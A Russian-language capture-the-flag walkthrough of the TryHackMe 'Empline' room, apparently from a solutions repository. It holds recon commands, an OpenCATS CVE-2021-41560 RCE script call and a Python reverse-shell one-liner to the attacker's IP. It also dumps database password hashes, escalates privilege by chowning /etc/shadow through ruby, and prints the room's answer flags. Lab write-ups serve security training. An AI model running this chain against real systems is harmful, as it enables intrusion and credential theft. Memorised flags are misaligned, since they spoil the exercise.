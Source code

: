 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Empline](https://tryhackme.com/r/room/empline) 

Всего 3 задания:
## Задание 1
Убедитесь, что вы подключены к  сети TryHackMe . Если вы не знаете, как это сделать, сначала пройдите комнату OpenVPN.
### Ответьте на вопросы ниже
Разверните машину!
```commandline
Ответ не нужен
```

## Задание 2
Соберите все флаги, чтобы завершить комнату.
### Ответьте на вопросы ниже
Пользователь.txt
```commandline
nmap -sSCV -T4 <IP>
echo "<IP> empline.thm job.empline.thm" >> /etc/hosts
gobuster dir -w /usr/share/wordlists/dirb/common.txt -v -k -u http://job.empline.thm -x php,js,conf,bak,txt,old | grep “Found”
# http://job.empline.thm/careers
# OpenCATS <= 0.9.4 RCE (CVE-2021-41560)
./CVE-2021-41560.sh http://job.empline.thm/
whoami
export RHOST="<my_own_IP>";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
nc -lvnp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
^Z
stty raw -echo; fg
cat user.txt
```
```commandline
91cb89c70aa2e5ce0e0116dab099078e
```
Корень.txt
```commandline
cat config.php
mysql -h <IP> -u james -p
show databases;
use opencats;
show tables;  
select * from user;
# admin          | b67b5ecc5d8902ba59c65596e4c053ec |
# cats@rootadmin | cantlogin                        |
# george         | 86d0dfda99dbebc424eb4407947356ac |
# james          | e53fbdb31890ff3bc129db0e27c473c9

# md5 hash
ssh george@<IP>
ls -l /etc/shadow                                                                                                                           
/usr/local/bin/ruby -e "require 'fileutils'" -e "FileUtils.chown('george','george','/etc/shadow')"   
ls -l /etc/shadow                                                                                                                           
openssl passwd -6 -salt abc password                                                                                                        
vim /etc/shadow                                                                                                                             
cat /etc/shadow
```
```commandline
74fea7cd0556e9c6f22e6f54bc68f5d5
```

## Задание 3
Во-первых, я хотел бы поблагодарить вас за игру в эту машину. Надеюсь, вам было весело!

И еще, спасибо за отзыв о моей первой коробке ( Mustacchio ).

Завершение, большое спасибо Touklwez .

Хороший взлом!

### Ответьте на вопросы ниже
Спасибо!
```commandline
Ответ не нужен
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)